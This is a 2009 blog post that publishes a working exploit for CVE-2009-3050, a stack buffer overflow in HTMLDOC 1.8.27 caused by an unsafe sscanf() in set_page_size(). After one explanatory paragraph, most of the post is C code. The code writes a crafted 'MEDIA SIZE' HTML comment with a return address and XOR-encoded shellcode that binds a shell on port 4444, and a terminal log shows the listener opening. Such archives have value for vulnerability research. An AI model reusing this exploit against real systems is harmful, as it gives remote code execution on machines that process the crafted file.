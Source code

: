 ```yaml
---
author: pank4j
comments: true
date: 2009-08-20 00:34:14+00:00
layout: post
slug: htmldoc-html-file-handling-remote-stack-buffer-overflow-exploit-linux
title: HTMLDOC 'html' File Handling Remote Stack Buffer Overflow Exploit (Linux)
description: HTMLDOC 'html' File Handling Remote Stack Buffer Overflow Exploit (Linux)
wordpress_id: 49
categories:
- Archive
tags:
- CVE-2009-3050
- exploits
---
```


The vulnerability exists in HTMLDOC version 1.8.27 and earlier due to an unsafe call to `sscanf()` in the `set_page_size()` function in `htmldoc/util.cxx`. This can be exploited to cause a stack-based buffer overflow when an HTML document containing e.g. a specially crafted "MEDIA SIZE" comment is being processed.

{% highlight c %}
/*

HTMLDOC 'html' File Handling Remote Stack Buffer Overflow Exploit (Linux)
Reference: http://www.securityfocus.com/bid/35727

Tested on HTMLDOC 1.8.27 on Debian 5.0 (+ASLR)
Credit: ANTHRAX666 for finding the vulnerability

Coded by Pankaj Kohli

http://www.codepwn.com

pankaj@zion:~/test/htmldoc$ cat /proc/sys/kernel/randomize_va_space
2
pankaj@zion:~/test/htmldoc$ gcc htmldocb0f.c -o htmldocb0f
pankaj@zion:~/test/htmldoc$ ./htmldocb0f

[*] Creating buffer
[*] Exploit file written to sploit.html
Run as: htmldoc -f somefile.pdf sploit.html

pankaj@zion:~/test/htmldoc$ netstat -an --inet | grep 4444
pankaj@zion:~/test/htmldoc$ ./htmldoc-1.8.27/htmldoc/htmldoc -f abc.pdf sploit.html &
[1] 3287
pankaj@zion:~/test/htmldoc$ netstat -an --inet | grep 4444
tcp 0 0 0.0.0.0:4444 0.0.0.0:* LISTEN

*/

#include <stdio.h>
#include <string.h>

/* Port binding (xor encoded) shellcode (port 4444) */
char code[] =
"\xeb\x12\x5b\x31\xc9\xb1\x75\x8a\x03\x34"
"\x1e\x88\x03\x43\x66\x49\x75\xf5\xeb\x05"
"\xe8\xe9\xff\xff\xff\x74\x78\x46\x74\x1f"
"\x45\x2f\xd7\x4f\x74\x1f\x74\x1c\x97\xff"
"\xd3\x9e\x97\xd8\x2f\xcc\x4c\x78\x76\x0f"
"\x42\x78\x76\x1c\x1e\x97\xff\x74\x0e\x4f"
"\x4e\x97\xff\xad\x1c\x74\x78\x46\xd3\x9e"
"\xae\x78\xad\x1a\xd3\x9e\x4c\x48\x97\xff"
"\x5d\x74\x78\x46\xd3\x9e\x97\xdd\x74\x1c"
"\x47\x74\x21\x46\xd3\x9e\xfc\xe7\x74\x21"
"\x46\xd3\x9e\x2f\xcc\x4c\x76\x70\x31\x6d"
"\x76\x76\x31\x31\x7c\x77\x97\xfd\x4c\x78"
"\x76\x33\x77\x97\xff\x4c\x4f\x4d\x97\xff"
"\x74\x15\x46\xd3\x9e\x74\x1f\x46\x2f\xc5"
"\xd3\x9e";

long jmp = 0x0804d938; // push esp; ret 0x0807;

int main(int argc, char **argv, char **envp) {
    char buff[512];
    int i;
    FILE *fd;

    printf("\n[*] Creating buffer\n");
    strcpy(buff, "<!-- MEDIA SIZE 1x1");
    for(i=0; i<275; i++) {
        buff[19+i] = 'A';
    }

    buff[294] = jmp & 0x000000ff;
    buff[295] = (jmp & 0x0000ff00) >> 8;
    buff[296] = (jmp & 0x00ff0000) >> 16;
    buff[297] = (jmp & 0xff000000) >> 24;
    buff[298] = 0;

    strcat(buff, code);

    fd = fopen("sploit.html", "wb");
    fprintf(fd, "%s", buff);
    fclose(fd);
    printf("[*] Exploit file written to sploit.html\n");
    printf("Run as: htmldoc -f somefile.pdf sploit.html\n\n");

    return 0;
}
{% endhighlight %}

